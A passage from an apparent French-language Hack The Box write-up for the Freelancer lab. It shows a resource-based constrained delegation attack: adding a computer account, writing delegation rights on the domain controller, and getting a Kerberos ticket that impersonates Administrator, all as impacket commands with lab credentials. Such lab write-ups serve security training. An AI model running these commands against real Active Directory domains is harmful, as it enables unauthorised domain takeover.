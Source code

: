 > Je ne suis pas sûr qu'il soit possible d'accéder au compte administrateur depuis le compte de Liza Kazanof. Je mettrai à jour cette partie si je trouve un chemin d'exploitation pour le faire. **EDIT (08/10/2024)**: le chemin d'exploitation à partir du compte de Liza Kazanof est le chemin voulu par l'auteur et est détaillé dans l'article de 0xdf [ici](https://0xdf.gitlab.io/2024/10/05/htb-freelancer.html#intended-path).

Les membres de `AD Recycle Bin` ont la permission `GenericWrite` sur le contrôleur de domaine, nous pouvons l'utiliser pour exploiter la cible par une délégation restreinte basée sur les ressources (RBCD). _Pour en savoir plus, cliquez [ici](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation)_.

![GenericWrite privilege](/images/HTB-Freelancer/GenericWrite_priv.png)

1. Tout d'abord, nous créons un compte d'ordinateur (`KSCORPIO$`) dans le domaine avec un mot de passe spécifié (`LETSgetr00t!`).

```
impacket-addcomputer -computer-name 'KSCORPIO$' -computer-pass 'LETSgetr00t!' -dc-host freelancer.htb -domain-netbios freelancer.htb freelancer.htb/lorra199:'PWN3D#l0rr@Armessa199'
```

![GenericWrite privilege](/images/HTB-Freelancer/impacket_addcomputer.png)

2. Nous modifions ensuite l'attribut `msDS-AllowedToActOnBehalfOtherIdentity` sur le contrôleur de domaine (`DC$`) pour inclure l'objet `KSCORPIO$` afin d'usurper l'identité d'autres comptes contre `DC$`.

```
impacket-rbcd -delegate-from 'KSCORPIO$' -delegate-to 'DC$' -dc-ip 10.10.11.5 -action 'write' 'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199'
```

![Delegation modification](/images/HTB-Freelancer/rbcd_delegation.png)

3. Nous obtenons un ticket Kerberos pour le service CIFS sur le contrôleur de domaine (`dc.freelancer.htb`), en nous faisant passer pour **Administrator**. Ce ticket nous permet d'effectuer diverses opérations au nom du compte administrateur sur la machine cible.

```
faketime -f +5h impacket-getST -spn 'cifs/dc.freelancer.htb' -impersonate Administrator -dc-ip 10.10.11.5 freelancer.htb/KSCORPIO$:'LETSgetr00t!'
```

> Le SPN (Service Principal Name) `cifs/dc.freelancer.htb` indique que nous voulons nous authentifier au service de partage de fichiers sur le contrôleur de domaine. Le service CIFS est essentiellement une extension du protocole SMB. _Pour en savoir plus, cliquez [ici](https://www.upguard.com/blog/cifs)._

![Kerberos ticket](/images/HTB-Freelancer/Kerberos_ticket.png)

4. Pour qu'Impacket utilise notre ticket, nous définissons une variable d'environnement pointant vers le fichier de cache.

```
export KRB5CCNAME=Administrator@cifs_dc.freelancer.htb@FREELANCER.HTB.ccache
```
![environmental variable for kerberos ticket use](/images/HTB-Freelancer/env_var.png)
